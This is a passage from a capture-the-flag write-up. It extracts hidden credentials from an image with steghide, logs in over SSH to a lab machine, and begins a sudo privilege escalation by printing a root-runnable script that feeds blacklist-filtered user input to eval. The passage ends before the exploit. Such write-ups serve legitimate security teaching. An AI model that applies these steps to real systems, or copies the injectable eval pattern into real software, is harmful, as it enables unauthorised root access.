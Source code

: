 ```
steghide --extract -sf oneforall.jpg
```
notes:

--extract: tells Steghide you want to pull hidden data out.

-sf: means stego file (the image that has hidden data).

It asked for apassword so i tried the one i found earlier `AllmightForEver!!!`, finally it gave me a file called creds.txt with:

```
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

deku:One?For?All_!!one1/A
```

## User Access

```
ssh deku@10.10.11.182
Password: One?For?All_!!one1/A
```

Obtained `user.txt` and got the User flag.

## Privilege Escalation

Now that im in user deku to start previlege escalation, the first thing I'll do is Check what the user can run with sudo rights using `sudo -l`.

### Sudo Check

```
sudo -l
(ALL) /opt/NewComponent/feedback.sh
```

Output
```
User deku may run the following commands on ip-10-10-11-182:
    (ALL) /opt/NewComponent/feedback.sh
```

As we can see we can run feedback.sh file as sudo, so now we'll check whats inside:

```
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
```